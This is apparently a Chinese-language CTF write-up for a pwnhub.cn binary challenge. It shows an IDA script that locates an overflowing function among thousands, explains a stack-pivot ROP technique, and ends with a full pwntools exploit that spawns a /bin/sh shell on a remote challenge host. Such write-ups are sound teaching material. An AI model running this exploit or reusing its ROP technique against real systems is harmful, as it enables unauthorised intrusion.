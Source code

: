 ```yaml
---
layout: post
title: pwnhub.cn 名字还在起 无题 writeup
categories: [PWN, Writeup]
description: pwnhub.cn 名字还在起 PWN题
keywords: WEB, PWN, Writeup
---
```


# pwnhub.cn 名字还在起 无题 Writeup

当天晚上跟大佬们出去high了没做题目，结果第二天起床之后就发现一血二血都被大佬们拿走了，膜

## 题目分析

刚拿到之后丢进IDA看了一下，好多函数。然后随便点几个函数进去，发现所有的函数都是一个形式的，我随便找几个大家感受一下就明白了：

```C
size_t func_17979()
{
  char ptr; // [rsp+0h] [rbp-C0h]@1

  fread(&ptr, 0xB3uLL, 1uLL, stdin);
  return fwrite("thank you for testing!!\n", 1uLL, 0x18uLL, stdout);
}

size_t func_60781()
{
  char ptr; // [rsp+0h] [rbp-C0h]@1

  fread(&ptr, 0xB5uLL, 1uLL, stdin);
  return fwrite("thank you for testing!!\n", 1uLL, 0x18uLL, stdout);
}

size_t func_92021()
{
  char ptr; // [rsp+0h] [rbp-20h]@1

  fread(&ptr, 0x15uLL, 1uLL, stdin);
  return fwrite("thank you for testing!!\n", 1uLL, 0x18uLL, stdout);
}

```

然后看了一下主函数的逻辑，发现上述的这些函数的调用方式为直接输入函数名字后面的数字就可以调到相应的函数，比如输入17979就会调func_17979。所以这个题目看起来像是从这将近3000长得差不多的函数里面找一个有溢出的函数。。orzzzz

于是我写了一个IDA脚本

```python
for addr in XrefsTo(0x00400550, flags=0):
	func=addr.frm;
	writesize=0;
	buffersize=0;
	while(1):
		if(Byte(func)==0xBE and Byte(func+2)==0x00 and Byte(func+3)==0x00 and Byte(func+4)==0x00):
			writesize=Byte(func+1)
		elif(Byte(func)==0xBE and Byte(func+3)==0x00 and Byte(func+4)==0x00 and Byte(func+5)==0x00):
			writesize=Word(func+1)
		if(Byte(func)==0x48 and Byte(func+1)==0x83 and Byte(func+2)==0xEC):
			buffersize=Byte(func+3)
			break;
		elif(Byte(func)==0x48 and Byte(func+1)==0x81 and Byte(func+2)==0xEC):
			buffersize=Byte
			break;
		elif(Byte(func)==0x48 and Byte(func+1)==0x83 and Byte(func+2)==0xC4):
			buffersize=Byte
			break;
		func-=1;
		if(addr.frm-func > 0x40):
			break;
	if writesize==0 or buffersize==0:
		print "error",hex(addr.frm)
	elif buffersize<writesize:
		print "oflow",hex(addr.frm),"buffersize="+str(hex(buffersize)),"writesize="+str(hex(writesize))
```

放在IDA里面跑一下 很快就输出了有漏洞的函数的offset

```
oflow 0x40d169L buffersize=0x20 writesize=0x30
```


## 漏洞利用

利用比较有技巧性的一点是这题的溢出只有0x10 Bytes，所以要把栈劫持到bss上，也就是做Stack Pivot。关于这一点做法其实很多，一种方法是不断调用有漏洞函数然后leave ret返回main，这样每次可以往bss段写0x20的数据，所来几次就可以把ROP chain写全。但是我觉得这样做太蛋疼了所以没这么干，就去想了想新方法，后面发现新方法更蛋疼。。。

我的ROP的做法如下

1. 第一次触发漏洞，在leave的时候改写rbp为bss的末端地址rbp1，返回漏洞函数的**sub     rsp, 20h**指令之后。
2. 第二次触发漏洞，由于rbp被劫持到rbp1，所以这一次fread会向rbp-0x20写入数据，且在leave到时候会改写rsp为rbp1，改写rbp为rbp2,其中rbp2为rbp1-0x20，返回一个能够读入0xd0字节的函数的**sub     rsp, d0h**指令之后。
3. 此时该函数会向rbp2-0xd0读入数据0xc1的数据，但是rsp的值却为rbp1，也就是rbp2+0x20，所以rbp和rsp的值是冲突的，这样会导致函数在读入过程中覆盖fread函数以及其调用链的栈帧本身，从而可以libc中fread函数以及接下来的调用链栈帧
4. 覆盖libc中的**\_\_memcpy\_sse2**的返回地址为pop rsp的地址，这样就可以劫持rsp到rbp2-0xd0，rbp2-0xd0在第三步的时候已经被准备好了gadget，接下来就愉快的ROP就可以，直接设置rsi rdi rdx 以及rax调syscall就好了

### 踩坑小记

我的做法主要是蛋疼之处在于依赖libc的版本，不同libc的版本fwrite函数的调用链栈帧可能不一样，当时我以为远程的系统版本应该是16.04所以我就在16.04调的exp，本地很快就过了，但是远程打不进去，我觉得很蛋疼，于是又在15.04 14.04测试了一下exp，都没有问题。心想该不会是16.10的系统吧，于是又现下了16.10版本，发现我的exp果然在16.10不work，想来是16.10的fwrite函数的调用链的栈帧跟之前的版本不一样了吧。改了几个offset之后打过去果然拿到了shell。




## Exploit

```python

from pwn import *;

port=17773
objname = "KLHFD34J"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,1);
    return data;

def write(data):
    io.send(str(data));
    sleep(0.1);

def writeline(data):
    io.sendline(str(data));
    sleep(0.1);
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    rbp1=0x66c080+0xD0+0x20
    vulfunc=0x40D14E;
    rbp2=0x66c080+0xD0
    binsh=0x66c128
    read_d0=0x401866
    poprsp=0x0044a5c4
    rsp=0x66c080
    prdx=0x0040fe12
    pprsi=0x0044dc21
    prdi=0x0044dc23
    syscall=0x004379d7
    
    readuntil("function?\n")
    writeline(48607);
    payload1="A"*0x20;
    payload1+=p64(rbp1)
    payload1+=p64(vulfunc)
    write(payload1)
    
    payload2="B"*0x20
    payload2+=p64(rbp2)
    payload2+=p64(read_d0)
    write(payload2)

    payload3=p64(prdi)
    payload3+=p64(binsh-8);
    payload3+=p64(0x400590) #atoi
    payload3+=p64(pprsi)
    payload3+=p64(binsh+0x300);#rsi
    payload3+=p64(binsh+0x300);#r15
    payload3+=p64(prdi)
    payload3+=p64(binsh)
    payload3+=p64(prdx)
    payload3+=p64(0)
    payload3+=p64(syscall)
    payload3+="C"*(0x70-88);
    payload3+="D"*8;
    payload3+=p64(poprsp)
    payload3+=p64(rsp)
    payload3+="E"*24
    payload3+="59"+"\x00"*6;
    payload3+="/bin/sh\x00"
    payload3+="F"*0x11
    write(payload3)
    io.interactive();

#attack()
attack("54.223.81.128")
```
